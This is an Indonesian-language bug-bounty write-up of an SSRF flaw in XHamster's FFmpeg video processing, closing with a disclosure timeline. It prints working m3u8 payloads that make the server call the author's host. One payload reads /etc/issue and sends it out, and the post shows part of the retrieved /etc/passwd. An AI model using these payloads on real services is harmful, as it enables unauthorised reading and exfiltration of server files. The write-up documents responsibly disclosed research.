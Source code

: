 ```yaml
---
layout: post
title: XHamster SSRF Vulnerability
date: 2017-08-18 11:55:10
permalink: 2017-08-18-xhamster-ssrf-vulnerabillity/
author: xhellc0de
categories: pentesting
tags: vulnerability ssrf xhamster project bug-bounty
---
```

![Image of XHamster](https://raw.githubusercontent.com/noobsec/noobsec.github.io/master/images/xh-pwn.jpg)

XHamster merupakan situs streaming video dewasa yang cukup besar. Konten-konten **menarik** pada situs tersebut merupakan kontribusi dari para member XHamster, dengan kata lain, para member *meng-upload* video mereka ke situs tersebut. Bagi para *Bounty Hunter*, fitur *upload* terlihat seperti tambang emas yang siap untuk digali :) Maka dari itu, kami pun tertarik untuk mencoba mencari celah keamanan pada situs XHamster.

Seperti pada situs streaming lainnya, setiap video yang *diupload*, kemungkinan besar *di-encode* terlebih dahulu sebelum kemudian disajikan ke pengunjung. Kebanyakan situs video streaming menggunakan **FFMPEG** untuk *encoding* video pada situs mereka. Maka kami mencoba apakah benar XHamster menggunakan FFMPEG, dan apakah terdapat celah disana.

Pertama kami melakukan pengetesan sederhana dengan mengupload sebuah file video yang telah disisipi *payload* berikut:
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0,
http://noobsec.org:1337/tes_ssrf
#EXT-X-ENDLIST
```

Setelah itu, *listen* di *server* pada port 1337, dan benar kami muncul *response* dari server XHamster:
```
[xhellc0de@noobsec.org ~]# nc -lv 1337
Connection from 88.208.16.193 port 1337 [tcp/menandmice-dns] accepted
GET /tes_ssrf HTTP/1.1
User-Agent: Lavf/56.x.x
Accept: */*
Connection: close
Host: noobsec.org:1337
Icy-MetaData: 1
```

Melihat dari *response* tersebut, maka kami berasumsi bahwa FFMPEG yang digunakan kemungkinan memiliki celah. Maka kami melanjutkan penetrasi lebih dalam untuk mencoba melihat *file* yang ada di server.

Kami sedikit memodifikasi file video yang akan diupload dan membuat 1 file baru dengan nama **header.m3u8**, dengan isi:

ssrf.avi
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0,
concat:http://noobsec.org:1337/header.m3u8|file:///etc/issue
#EXT-X-ENDLIST
```

header.m3u8	
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://noobsec.org:1337/ssrf_result?
```

Setelah diupload, dan kembali melakukan listen di server, maka muncul *response* seperti berikut:
```
[xhellc0de@noobsec.org ~]# nc -lv 1337
Connection from 88.208.16.193 port 1337 [tcp/menandmice-dns] accepted
GET /ssrf_result?Debian+GNU/Linux+8+\n+\l HTTP/1.1
User-Agent: Lavf/56.x.x
Accept: */*
Connection: close
Host: noobsec.org:1337
Icy-MetaData: 1
```

Dapat dilihat bahwa isi dari *file* /etc/issue adalah: **Debian GNU/Linux 8 \n \l**

Untuk bukti yang lebih kuat, maka kami mencoba untuk melihat file lain yang ada di server XHamster. Dengan sedikit modifikasi pada payload, kami berhasil mengambil isi file /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[ redacted ]
messagebus:x:104:107::/var/run/dbus:/bin/false
www:x:999:999::/home/www:/bin/sh
xhamster:x:998:998::/home/xhamster:/bin/sh
[ redacted ]
```

Kami mencoba untuk mengambil isi file-file lain seperti 000-default.conf dan file default lainnya, namun sepertinya XHamster tidak menggunakan default settings, dan kami kesulitan untuk menebak path dari file yang ada pada server mereka.

Untuk itu, kami rasa cukup sejauh ini penetrasi yang dilakukan dan kami langsung menghubungi XHamster terkait isu tersebut.

Timeline:
```
15 Agustus 2017 14:00 : Celah keamanan ditemukan
15 Agustus 2017 15:30 : Celah keamanan dilaporkan ke XHamster
15 Agustus 2017 16:15 : XHamster mengkonfirmasi bahwa celah keamanan tersebut valid
15 Agustus 2017 16:53 : XHamster menyatakan sedang melakukan perbaikan pada celah tersebut
15 Agustus 2017 21:40 : XHamster memberikan reward atas celah yang ditemukan
17 Agustus 2017 10:59 : Celah telah diperbaiki
```
Referensi: https://www.blackhat.com/docs/us-16/materials/us-16-Ermishkin-Viral-Video-Exploiting-Ssrf-In-Video-Converters.pdf
